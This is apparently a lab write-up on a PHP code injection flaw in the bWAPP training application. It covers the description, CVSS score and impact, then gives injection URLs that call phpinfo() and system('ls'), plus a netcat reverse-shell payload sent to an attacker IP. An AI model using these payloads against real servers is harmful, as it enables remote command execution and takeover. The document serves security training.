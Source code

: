 # PHP Code Injection – Remote Code Execution (RCE)

## 1. Description
PHP Code Injection is a critical vulnerability where user-supplied input is interpreted as PHP code by the server.  
This allows attackers to execute arbitrary PHP functions, access sensitive system data, and even gain remote shell access.  

In this bWAPP module, the `message` GET parameter is passed directly into PHP's execution context without sanitization, enabling direct code execution.

---

## 2. CVSS Score & Severity
- **Severity:** Critical  
- **CVSS v3.1 Base Score:** 9.8  

---

## 3. Impact
- **Full System Compromise** – Execute arbitrary system commands.  
- **Sensitive Data Disclosure** – Access configuration files, credentials, and environment variables.  
- **Web Shell Deployment** – Maintain persistent access to the server.  
- **Privilege Escalation** – Potential to escalate privileges depending on misconfigurations.  
- **Service Disruption** – Delete/modify files, crash services.  

---

## 4. Attack Vector
The vulnerable parameter:  
- **GET method:** `message` in `/phpi.php`

**Example vulnerable request (executing `phpinfo()`):**
```
http://localhost/bWAPP/phpi.php?message=phpinfo()
```

**Example command execution via `system()` for RCE:**
```
http://localhost/bWAPP/phpi.php?message=system('ls')
```

**Reverse shell payload example:**
```
http://localhost/bWAPP/phpi.php?message=system('nc 192.168.1.8 4444 -e /bin/bash')
```

---

## 5. Vulnerability Scan
Confirmed using:  
- **Manual Testing** – Injected PHP function calls (`phpinfo()`, `system('ls')`) and confirmed output in browser.  
- **Reverse Shell** – Established connection to attacker machine using Netcat.  

---